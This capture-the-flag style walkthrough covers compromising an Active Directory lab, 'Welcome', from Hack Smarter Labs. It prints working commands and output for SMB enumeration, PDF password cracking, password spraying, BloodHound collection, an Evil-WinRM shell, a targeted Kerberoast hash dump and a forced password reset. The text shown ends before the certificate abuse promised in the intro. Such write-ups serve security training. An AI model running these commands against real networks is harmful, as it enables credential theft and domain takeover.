In this walkthrough, we will be compromising Welcome, an easy-difficulty Active Directory lab from Hack Smarter Labs. The engagement begins with phishing-obtained credentials for `e.hills`, which we use to enumerate an SMB share containing password-protected HR documents on the domain controller. Cracking the PDF with john reveals a default account password, and a password spray lands a hit on `a.harris`. BloodHound reveals `a.harris` holds `GenericAll` over `i.park`, and a Force Password Change chains through `i.park`'s `ForceChangePassword` privilege over the `svc_ca` service account. With `svc_ca` in the `Certificate Service DCOM` group, Certipy identifies an ESC1 misconfiguration on a custom certificate template that allows the requester to supply an arbitrary subject. We request a certificate as Administrator, authenticate via PKINIT to recover the NT hash, and log in to the domain controller for full domain compromise.


Created by: [Noah Heroldt](https://www.hacksmarter.org/courses/3d1021e5-39bf-41a6-8120-0d9b3e9c5431)

Let's get started.

## Objective

You are a member of the Hack Smarter Red Team. During a phishing engagement, you were able to retrieve credentials for the client's Active Directory environment. Use these credentials to enumerate the environment, elevate your privileges, and demonstrate impact for the client.

**Starting Credentials**

```
e.hills:Il0vemyj0b2025!
```

## Scope

**Target:** `10.1.92.228`

## RustScan

We use [RustScan](https://github.com/bee-san/RustScan) in place of Nmap for initial port discovery. RustScan is a fast port scanner that identifies open ports and passes them to Nmap for service detection and script scanning. The `-a` flag specifies the target, and everything after `--` is forwarded directly to Nmap, so `-sC` runs default scripts and `-sV` probes for service versions.

```
rustscan -a 10.1.92.228 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-06-29 21:03:43Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: WELCOME.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.WELCOME.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.WELCOME.local
| Issuer: commonName=WELCOME-CA/domainComponent=WELCOME
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-13T16:39:47
| Not valid after:  2026-09-13T16:39:47
| MD5:     2ded dae3 3ecd 1cc4 58a7 dd02 4f41 2b6d
| SHA-1:   aa01 7b70 2f48 f3c8 4aa0 5357 aeb8 93e9 8cbd 53bc
| SHA-256: 8735 4b7e c676 c67a 0ae7 73f7 d733 6d84 5e0b 2a4a 8723 8943 992a d0c3 b0bb f708
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: WELCOME.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-06-29T21:05:11+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DC01.WELCOME.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.WELCOME.local
| Issuer: commonName=WELCOME-CA/domainComponent=WELCOME
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-13T16:39:47
| Not valid after:  2026-09-13T16:39:47
| MD5:     2ded dae3 3ecd 1cc4 58a7 dd02 4f41 2b6d
| SHA-1:   aa01 7b70 2f48 f3c8 4aa0 5357 aeb8 93e9 8cbd 53bc
| SHA-256: 8735 4b7e c676 c67a 0ae7 73f7 d733 6d84 5e0b 2a4a 8723 8943 992a d0c3 b0bb f708
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: WELCOME.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-06-29T21:05:11+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DC01.WELCOME.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.WELCOME.local
| Issuer: commonName=WELCOME-CA/domainComponent=WELCOME
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-13T16:39:47
| Not valid after:  2026-09-13T16:39:47
| MD5:     2ded dae3 3ecd 1cc4 58a7 dd02 4f41 2b6d
| SHA-1:   aa01 7b70 2f48 f3c8 4aa0 5357 aeb8 93e9 8cbd 53bc
| SHA-256: 8735 4b7e c676 c67a 0ae7 73f7 d733 6d84 5e0b 2a4a 8723 8943 992a d0c3 b0bb f708
3269/tcp  open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: WELCOME.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.WELCOME.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.WELCOME.local
| Issuer: commonName=WELCOME-CA/domainComponent=WELCOME
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-13T16:39:47
| Not valid after:  2026-09-13T16:39:47
| MD5:     2ded dae3 3ecd 1cc4 58a7 dd02 4f41 2b6d
| SHA-1:   aa01 7b70 2f48 f3c8 4aa0 5357 aeb8 93e9 8cbd 53bc
| SHA-256: 8735 4b7e c676 c67a 0ae7 73f7 d733 6d84 5e0b 2a4a 8723 8943 992a d0c3 b0bb f708
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
|_ssl-date: 2026-06-29T21:05:11+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DC01.WELCOME.local
| Issuer: commonName=DC01.WELCOME.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-06-27T23:05:43
| Not valid after:  2026-12-27T23:05:43
| MD5:     c809 c546 5c06 5031 abbb 28e5 542f a280
| SHA-1:   fa54 3a8d 558f cba7 55c4 01f7 6e21 6c20 2309 c7a3
| SHA-256: af15 65b5 f258 eeab 0831 6d53 4d91 2072 b44c fb3d 059a e7c4 782c d451 a090 8a3c
5357/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49679/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49698/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49718/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49788/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Standard domain controller ports across the board. DNS on 53, Kerberos on 88, LDAP on 389/636, SMB on 445, RDP on 3389, and WinRM on 5985. The LDAP banner confirms the domain as `WELCOME.local` and the hostname as `DC01.WELCOME.local`. The SSL certificate issuer also reveals a CA named `WELCOME-CA`. Add `WELCOME.local` and `DC01.WELCOME.local` to `/etc/hosts` before continuing.

## SMB Enumeration

With our phishing credentials for `e.hills`, we check what SMB shares are available.

```
nxc smb WELCOME.local -u 'e.hills' -p 'Il0vemyj0b2025!' --shares
```

```
SMB         10.1.92.228      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:WELCOME.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.92.228      445    DC01             [+] WELCOME.local\e.hills:Il0vemyj0b2025! 
SMB         10.1.92.228      445    DC01             [*] Enumerated shares
SMB         10.1.92.228      445    DC01             Share           Permissions     Remark
SMB         10.1.92.228      445    DC01             -----           -----------     ------
SMB         10.1.92.228      445    DC01             ADMIN$                          Remote Admin
SMB         10.1.92.228      445    DC01             C$                              Default share
SMB         10.1.92.228      445    DC01             Human Resources READ            
SMB         10.1.92.228      445    DC01             IPC$            READ            Remote IPC
SMB         10.1.92.228      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.92.228      445    DC01             SYSVOL          READ            Logon server share 
```



*NetExec share enumeration as e.hills with Human Resources share visible*

We have READ access to a `Human Resources` share, which is non-standard and worth investigating. SMB signing is enabled and null authentication is permitted. Let's connect to the share and see what it contains.

## Smbclient

We connect to the `Human Resources` share and pull down its contents.

```
smbclient //WELCOME.local/'Human Resources' -U 'e.hills%Il0vemyj0b2025!'
```

```
smb: \> dir
  .                                   D        0  Sat Sep 13 19:20:17 2025
  ..                                  D        0  Sat Sep 13 16:11:19 2025
  Welcome 2025 Holiday Schedule.pdf      A    84715  Sat Sep 13 18:18:12 2025
  Welcome Benefits.pdf                A    81466  Sat Sep 13 18:18:12 2025
  Welcome Handbook Excerpts.pdf       A    82644  Sat Sep 13 18:18:12 2025
  Welcome Performance Review Guide.pdf      A    79823  Sat Sep 13 18:18:12 2025
  Welcome Start Guide.pdf             A    89511  Sat Sep 13 18:18:12 2025

                15568127 blocks of size 4096. 11922791 blocks available
smb: \> mget *
Get file Welcome 2025 Holiday Schedule.pdf? y
getting file \Welcome 2025 Holiday Schedule.pdf of size 84715 as Welcome 2025 Holiday Schedule.pdf (138.3 KiloBytes/sec) (average 138.3 KiloBytes/sec)
Get file Welcome Benefits.pdf? y
getting file \Welcome Benefits.pdf of size 81466 as Welcome Benefits.pdf (200.9 KiloBytes/sec) (average 163.3 KiloBytes/sec)
Get file Welcome Handbook Excerpts.pdf? y
getting file \Welcome Handbook Excerpts.pdf of size 82644 as Welcome Handbook Excerpts.pdf (287.2 KiloBytes/sec) (average 190.6 KiloBytes/sec)
Get file Welcome Performance Review Guide.pdf? y
getting file \Welcome Performance Review Guide.pdf of size 79823 as Welcome Performance Review Guide.pdf (277.4 KiloBytes/sec) (average 206.3 KiloBytes/sec)
Get file Welcome Start Guide.pdf? y
getting file \Welcome Start Guide.pdf of size 89511 as Welcome Start Guide.pdf (302.5 KiloBytes/sec) (average 221.3 KiloBytes/sec)
```



*Smbclient connected to the Human Resources share with five PDFs downloaded*

Five PDF documents that look like onboarding and HR material. We download them all with `mget *` and start reviewing. The `Welcome Start Guide.pdf` stands out as the most likely to contain useful information for a new employee, but when we try to open it, the PDF is password-protected.



*Welcome Start Guide PDF is password-protected*

We use `pdf2john` to extract the hash and crack it with john.

```
pdf2john Welcome\ Start\ Guide.pdf > pdf_hash.txt
```

```
john pdf_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

The PDF password cracks to `humanresources`. Opening the document with this password reveals a default account password: `Welcome2025!@`.



*Welcome Start Guide containing the default account password Welcome2025!@*

This is exactly the kind of finding that turns a limited foothold into broader access. We now have a default password that may still be in use across the domain.

## Password Spraying

We enumerate all domain users with NetExec so we have a list of targets for the spray.

```
nxc smb WELCOME.local -u 'e.hills' -p 'Il0vemyj0b2025!' --users
```

```
SMB         10.1.92.228      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:WELCOME.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.92.228      445    DC01             [+] WELCOME.local\e.hills:Il0vemyj0b2025! 
SMB         10.1.92.228      445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.1.92.228      445    DC01             Administrator                 2025-09-13 16:24:04 0       Built-in account for administering the computer/domain 
SMB         10.1.92.228      445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.1.92.228      445    DC01             krbtgt                        2025-09-13 16:40:39 0       Key Distribution Center Service Account 
SMB         10.1.92.228      445    DC01             e.hills                       2025-09-13 20:41:15 0        
SMB         10.1.92.228      445    DC01             j.crickets                    2025-09-13 20:43:53 0        
SMB         10.1.92.228      445    DC01             e.blanch                      2025-09-13 20:49:13 0        
SMB         10.1.92.228      445    DC01             i.park                        2025-09-14 04:23:03 0       IT Intern 
SMB         10.1.92.228      445    DC01             j.johnson                     2025-09-13 20:58:15 0        
SMB         10.1.92.228      445    DC01             a.harris                      2025-09-13 20:59:13 0        
SMB         10.1.92.228      445    DC01             svc_ca                        2025-09-14 00:19:35 0        
SMB         10.1.92.228      445    DC01             svc_web                       2025-09-13 21:40:40 0       Web Server in Progress 
SMB         10.1.92.228      445    DC01             [*] Enumerated 11 local users: WELCOME
```

Eleven domain users. We notice `i.park` is tagged as an "IT Intern" and there are two service accounts: `svc_ca` and `svc_web`. We save the usernames to a `users.txt` file and spray the default password against all of them.

```
nxc smb WELCOME.local -u users.txt -p 'Welcome2025!@' --continue-on-success
```

```
SMB         10.1.92.228      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:WELCOME.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.92.228      445    DC01             [-] WELCOME.local\Administrator:Welcome2025!@ STATUS_LOGON_FAILURE 
SMB         10.1.92.228      445    DC01             [-] WELCOME.local\Guest:Welcome2025!@ STATUS_LOGON_FAILURE 
SMB         10.1.92.228      445    DC01             [-] WELCOME.local\krbtgt:Welcome2025!@ STATUS_LOGON_FAILURE 
SMB         10.1.92.228      445    DC01             [-] WELCOME.local\e.hills:Welcome2025!@ STATUS_LOGON_FAILURE 
SMB         10.1.92.228      445    DC01             [-] WELCOME.local\j.crickets:Welcome2025!@ STATUS_LOGON_FAILURE 
SMB         10.1.92.228      445    DC01             [-] WELCOME.local\e.blanch:Welcome2025!@ STATUS_LOGON_FAILURE 
SMB         10.1.92.228      445    DC01             [-] WELCOME.local\i.park:Welcome2025!@ STATUS_LOGON_FAILURE 
SMB         10.1.92.228      445    DC01             [-] WELCOME.local\j.johnson:Welcome2025!@ STATUS_LOGON_FAILURE 
SMB         10.1.92.228      445    DC01             [+] WELCOME.local\a.harris:Welcome2025!@ 
SMB         10.1.92.228      445    DC01             [-] WELCOME.local\svc_ca:Welcome2025!@ STATUS_LOGON_FAILURE 
SMB         10.1.92.228      445    DC01             [-] WELCOME.local\svc_web:Welcome2025!@ STATUS_LOGON_FAILURE 
```



*Password spray with default password: a.harris is a hit*

One hit: `a.harris` is still using the default password. We now have two valid accounts in the domain.

## BloodHound Enumeration

With two sets of credentials, we collect BloodHound data using NetExec to map out the domain's ACL relationships and group memberships.

```
nxc ldap 10.1.92.228 -u 'a.harris' -p 'Welcome2025!@' --bloodhound --collection All --dns-server 10.1.92.228
```

```
LDAP        10.1.92.228      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:WELCOME.local) (signing:None) (channel binding:Never) 
LDAP        10.1.92.228      389    DC01             [+] WELCOME.local\a.harris:Welcome2025!@ 
LDAP        10.1.92.228      389    DC01             Resolved collection methods: container, session, group, localadmin, objectprops, psremote, acl, rdp, trusts, dcom
LDAP        10.1.92.228      389    DC01             Done in 0M 16S
LDAP        10.1.92.228      389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.1.92.228_2026-06-29_173327_bloodhound.zip
```

Once the data is collected, we import it into BloodHound. If you are new to BloodHound, [this walkthrough](https://www.youtube.com/watch?v=whTdMlJGViM) covers how to get it up and running.

We mark `e.hills` and `a.harris` as owned and start exploring their relationships. The key finding is that `a.harris` is a member of `HR@WELCOME.LOCAL`, which has `GenericAll` over `i.park`. We also see `a.harris` is in the `Remote Management Users` group, indicating WinRM access to the DC.



*BloodHound showing HR group GenericAll over i.park*

Let's confirm that WinRM access first.

## Shell as a.harris (user.txt)

Since `a.harris` is in `Remote Management Users`, we connect with Evil-WinRM.

```
evil-winrm -i '10.1.92.228' -u 'a.harris' -p 'Welcome2025!@'
```



*Evil-WinRM session as a.harris on DC01*

We have a shell on the DC and can grab `user.txt` from the desktop of `a.harris`. Now let's move back to BloodHound and work the `GenericAll` relationship.

## Targeted Kerberoast

`GenericAll` over `i.park` gives us full control of that account. BloodHound suggests two abuse paths: a Targeted Kerberoast and a Force Password Change. We try the Targeted Kerberoast first using [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast). This tool automates the process of setting an SPN on a target account, requesting the TGS, and cleaning up the SPN after.

```
./targetedKerberoast.py -d WELCOME.local --dc-ip 10.1.92.228 -u 'a.harris' -p 'Welcome2025!@'
```

```
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (i.park)
$krb5tgs$23$*i.park$WELCOME.LOCAL$WELCOME.local/i.park*$0c10b354b7ebd370f03b63dfab679e99$fd7bdb10a164a7d309001a188360e50dd1ec0c53c722a9b289f2adb77a613e90932d0768d20b93d0635ba5dd441f8393ea9df64085cd535bce8a6912f13de8ff3936f4b061a1189a6a80fb5af136e8e8fb62869e791fd2ef4f65b27a3a42804fd24a1ae3ece30e8771c6ac8f3e1287e14f85702bfcf5648eccc6148be750ac70a991a95035082395f5cb8de2caa8c31fed2492fdaed85c9a36d5e45d1aa04f6b77c0df89b0da3ec40605e45a13468e71870edd7ad33c5468ad01e2dfb55776dea67ecdb7d607d1b3ac6b4aba3b023c593a6671e7bda43ca457b299686c7d7af0c488f27731f27ab4b145fac95822ff5156777b10cd73317b0a4b77272d1a74528562043787d4007d1c5da0b748fb72cbfa213a07282acbcce11db13d44dfa817b736dff1b5a37a8be1f67727eb9d7e5736833257b94abf15075c9cd26a676f781be6a98faf8d605003db0804352eb131896ff4f066ff684aacb15d03f4c3096f6d05d40c8beb961273b5960440ad428832638646bae33bc905d8dd27f99dcc5f621e48ae106cf73d25d04e39f111d80610fd9df8b3e64cbef98e0da775733ad8ad0dd4fad59edfacfc5126383e754213256017fa7e32da3cc8f4e7881b656506f60330a52c74cf5fbcb2f683a04179da01defb7e17af11377a9f9eb030428f5750636c2cf7f83066ebe48c9f591e4da07b3cb943ced99fb62f054afa612a36059693d4d5b54f57479618c940022cf8282407d56989e7eda203af3c59afd56b5f00b7cf7a7b636a5f649e57c9e77e96ddcd1ec788192683136133dd63ef9307151347b563410ed7205721a27f1276ca1838c339ec661ef38c2f8cba4d19020f2b6686eaff7fbc9dec370236fb9e6db40ec9e3e873f59345320880bb6d160b8056e797f78bf9b023376d123dd762e13f85e9cb273ec259b7c3f300efc6da48e20dbf2d4a95ac54c1ce6c6032e5d700ea81fceaaacc9fe5fc44e907b35c02982fd84f3486b3f0afe586b6ea68643a2fe310cdac8747206b643f2baeba2d10f2c38e4a1fd1061aaffc7defd442c91678c837cf03f5b3313f9974a2f7e1499a132f52676a84ea61e05de8890c429236143915dcf294f6378b0272fb77cf9f5cd46f73f50360adced41be1e4dba4bf95bd9212934703f802c97200f6abb896d188c0afe1596262405336a0fa8789a270c5691cd10518f0411da18b997cacb12aa87186e070932ee229b9ded220a2875b121b1b3f5fa6cd7410a9a66089cd10e2e0a60ca38fa27c613f09a882e18888d872eb9e2dc341b5a78c01ff47a82122d765bc2dc84ed18cf6895f6bc7d413fdecbaf9d4e98254715a0fe72c42e3cea1e3f3764bd46cd4c7e9437e9377c9d3d6df92df09abb0ac3002cae0a475544542c6667b694d1cf7463b65f767289c7e3cbe5936c5ce32fa7a2511dd2b7dd5fd4c17f1b9b14979ade6c5dd5dce4d60356fc1a1fc31b308cbf1f17d
```



*Targeted Kerberoast: TGS hash captured for i.park*

We save the hash to `ipark_hash.txt` and try to crack it with john.

```
john ipark_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:03 DONE (2026-06-29 17:48) 0g/s 3919Kp/s 3919Kc/s 3919KC/s !!12Honey..*7¡Vamos!
Session completed. 
```

Zero results. The password is not in `rockyou.txt`. Time to pivot to the second abuse path.

## Force Password Change

Since the Targeted Kerberoast did not produce a crackable hash, we fall back to a Force Password Change. `GenericAll` grants us the ability to reset `i.park`'s password directly without knowing the current one. We use `net rpc` to set a new password.

```
net rpc password "i.park" "0xB1rdWasHere1337" -U "WELCOME.local"/"a.harris"%"Welcome2025\!@" -S "10.1.92.228"
```



*Force Password Change on i.park via net rpc (no output indicates success)*

The command returns silently, which typically indicates success. We validate the new credentials with NetExec.

```
nxc smb WELCOME.local -u 'i.park' -p '0xB1rdWasHere1337' --shares
```

```
SMB         10.1.92.228      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:WELCOME.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.92.228      445    DC01             [+] WELCOME.local\i.park:0xB1rdWasHere1337 
SMB         10.1.92.228      445    DC01             [*] Enumerated shares
SMB         10.1.92.228      445    DC01             Share           Permissions     Remark
SMB         10.1.92.228      445    DC01             -----           -----------     ------
SMB         10.1.92.228      445    DC01             ADMIN$                          Remote Admin
SMB         10.1.92.228      445    DC01             C$                              Default share
SMB         10.1.92.228      445    DC01             Human Resources READ            
